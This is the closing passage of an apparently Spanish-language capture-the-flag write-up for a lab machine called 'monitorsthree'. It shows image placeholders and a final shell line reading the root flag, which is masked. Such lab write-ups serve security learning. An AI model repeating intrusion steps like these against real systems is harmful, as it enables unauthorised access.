

Si todo ha ido bien, deberemos de recibir un mensaje como el siguiente:


Finalmente, ejecutamos el siguiente comando y conseguiremos la flag de *root*:
```
marcus@monitorsthree:~$ cat root.txt/root.txt  
************************ 
```

¡Hasta la próxima! ¡Que la "*suerte*" os acompañe!